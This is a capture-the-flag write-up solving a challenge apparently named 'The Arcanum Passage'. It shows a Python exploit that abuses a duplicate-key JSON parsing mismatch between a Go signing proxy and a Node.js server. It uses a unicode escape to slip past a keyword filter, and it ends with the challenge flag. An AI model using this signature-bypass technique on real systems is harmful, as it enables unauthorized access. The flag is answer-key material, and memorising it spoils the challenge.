

## The Arcanum Passage  



We are provided with a Node.js source file and a Golang binary.  

`arcanum.js` contains a Node.js server that lets users retrieve tokens for warping to different destinations.  

In `/api/portal/warp`, if we teleport to the S-rank location `SANCTUM_OF_THE_VOID`, the flag will be displayed. However, if the endpoint detects the entire location name in our request, it blocks the warp.  

```js
const DESTINATIONS = {
    ...
  'SANCTUM_OF_THE_VOID': {
    name: 'Sanctum of the Void',
    description: 'A forbidden realm where reality fractures. Rank S clearance required.',
    coordinates: '??? (Classified)',
    threat_level: 'EXTREME',
    restricted: true,
    flag: FLAG
  }
};

...

app.post('/api/portal/warp', (req, res) => {
  try {
    if (req.rawBody && req.rawBody.includes('SANCTUM_OF_THE_VOID')) {
      console.log(`[ARCANUM] ⚠️  Blocked S-Rank warp attempt`);
      return res.status(403).json({ error: 'Warp failed' });
    }

    const { destination, nonce } = req.body;

    if (!destination) {
      return res.status(400).json({ error: 'Destination not specified' });
    }

    if (!nonce) {
      return res.status(400).json({ error: 'Nonce not specified' });
    }

    const destinationData = DESTINATIONS[destination];

    if (!destinationData) {
      return res.status(404).json({
        error: 'Unknown destination',
        message: `The destination "${destination}" does not exist.`
      });
    }

    console.log(`[ARCANUM] Processing warp to: ${destination}`);

    const response = {
      success: true,
      destination: destination,
      name: destinationData.name,
      description: destinationData.description,
      coordinates: destinationData.coordinates,
      threat_level: destinationData.threat_level,
      nonce: nonce
    };

    if (destinationData.flag) {
      response.flag = destinationData.flag;
      console.log(`[ARCANUM] ⚠️  FLAG REVEALED for ${destination}!`);
    }

    res.json(response);

  } catch (error) {
    console.error('Error processing warp:', error);
    res.status(500).json({ error: 'Internal server error' });
  }
});
```

The `/api/run/issue_s_rank` endpoint is useless, as access requires a environment variable codeword which isn't accessible to us.  

```js
app.post('/api/rune/issue_s_rank', (req, res) => {
  try {
    const { codeword } = req.body;

    if (!codeword) {
      return res.status(400).json({ error: 'Codeword required' });
    }

    if (codeword !== SECRET_CODEWORD) {
      console.log(`[ARCANUM] Failed S-Rank attempt with invalid codeword`);
      return res.status(403).json({
        error: 'Invalid codeword. Only S-Rank travelers may access this endpoint.'
      });
    }

    const payload = JSON.stringify({
      destination: 'SANCTUM_OF_THE_VOID',
      nonce: generateNonce()
    });

    console.log(`[ARCANUM] Issuing S-Rank rune for Sanctum`);

    res.json({
      payload: payload,
      message: 'S-Rank travel rune issued for Sanctum of the Void'
    });

  } catch (error) {
    console.error('Error issuing S-Rank rune:', error);
    res.status(500).json({ error: 'Internal server error' });
  }
});
```

The responses of `arcanum.js` and the actual remote server differed a lot, so I assumed that it was because the `sentinel` binary was interacting with the arcanum.js server as well.  

I got Claude to reverse engineer the Golang binary, which revealed that `sentinel` was indeed running a HTTP proxy that signed and verified the `rune` tokens, before forwarding them to the main `arcanum.js` server.  

The proxy of `/api/portal/warp` is of the most concern to us. It accepts a JWT token containing the destination and nonce in the `rune` field. If the token verification passes, it then forwards the entire raw form body to the corresponding `/api/portal/warp` endpoint in the `arcanum.js` server.  

```golang
func (s *Server) WarpPortal(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
		return
	}

	body, err := io.ReadAll(r.Body)
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		return
	}

	// Verify the token carried in the request before forwarding
	dest, nonce, err := crypto.VerifyRuneToken(
		string(body),
		s.Config.HMACSecret,
		s.Config.ArcanumURL,
	)
	if err != nil {
		http.Error(w, err.Error(), http.StatusUnauthorized)
		return
	}

	resp, err := http.Post(
		s.Config.ArcanumURL+"/api/portal/warp",
		"application/json",
		bytes.NewReader(body),
	)
	if err != nil {
		http.Error(w, err.Error(), http.StatusBadGateway)
		return
	}
	defer resp.Body.Close()

	// WarpPortal.func1 (0x671a00) — response copy closure
	_ = dest
	_ = nonce
	io.Copy(w, resp.Body)
}
```

`VerifyRuneToken()` uses `ExtractDestinationAndNonce()` to extract the destination and nonce from the Base64 payload in the JWT token, then resigns them to produce a new token. If the payload of the new token matches that of the original token, the verification passes.  

We can actually spot a neat parser mismatch between the `sentinel` proxy and the `arcanum.js` server.  

`ExtractDestinationAndNonce()` uses `gjson` to parse the JSON body, which takes the first key occurrence, while Node.js uses `JSON.parse()` to parse the JSON form data, which takes the last key occurrence. This sets up a duplicate key attack for us.  

```golang
func ExtractDestinationAndNonce(payload string) (destination, nonce string, err error) {
	destResult := gjson.Get(payload, "destination")
	nonceResult := gjson.Get(payload, "nonce")

	if destResult.Type == 0 && nonceResult.Type == 0 {
		return "", "", fmt.Errorf("destination field not found")
	}
	if nonceResult.Type == 0 {
		return "", "", fmt.Errorf("nonce field not found")
	}

	return destResult.String(), nonceResult.String(), nil
}

func VerifyRuneToken(token string, key []byte, arcanumURL string) (payload, nonce string, err error) {
	parts := strings.SplitN(token, ".", 2)
	if len(parts) != 2 {
		return "", "", fmt.Errorf("invalid rune format")
	}

	rawPayload, decErr := base64.RawURLEncoding.DecodeString(parts[0])
	if decErr != nil {
		return "", "", fmt.Errorf("invalid payload encoding")
	}

	dest, nonceVal, extractErr := ExtractDestinationAndNonce(string(rawPayload))
	if extractErr != nil {
		return "", "", extractErr
	}

	expected := SignRune(dest, nonceVal, key)
	provided := parts[1]

	// Constant-time comparison (XOR-accumulate loop observed in disasm)
	if len(expected) != len(provided) {
		return string(rawPayload), "", fmt.Errorf("invalid signature")
	}
	var diff byte
	for i := range expected {
		diff |= expected[i] ^ provided[i]
	}
	if diff != 0 {
		return "", "", fmt.Errorf("invalid signature")
	}

	return string(rawPayload), nonceVal, nil
}
```

We can first request a valid rune token from `/api/rune/issue`, then edit the JSON payload to have duplicate `destination` keys, the first being the original destination, and the second being the S-rank destination.  

`sentinel` will re-sign the validation token using the original destination and the verification will pass, while `arcanum.js` parses `SANCTUM_OF_THE_VOID` as the destination to warp to.  

To bypass the filter from earlier, we can just a unicode escape to obfuscate the destination name in our payload.  

```python
res = s.post(f'{url}/api/rune/issue', json={
    'destination': 'PLAINS_OUTPOST'
})

token = res.json()['rune']
print("> Token:", token)

# extract nonce
body, sig = token.split('.', 1)
nonce = json.loads(base64.b64decode(body + '=='))['nonce']

# duplicate key exploit
payload = '''{
  "destination": "PLAINS_OUTPOST",
  "destination": "S\\u0041NCTUM_OF_THE_VOID",
  "nonce": "%s"
}''' % nonce

token = f"{base64.b64encode(payload.encode()).decode().rstrip('=')}.{sig}"

print("> Payload:", token)
```

Submitting our payload rune token to `/api/portal/warp` will then return the flag.  

Flag: `Cyberthon{thr0ugh_th3_v01d_w3_p4ss_b3y0nd}`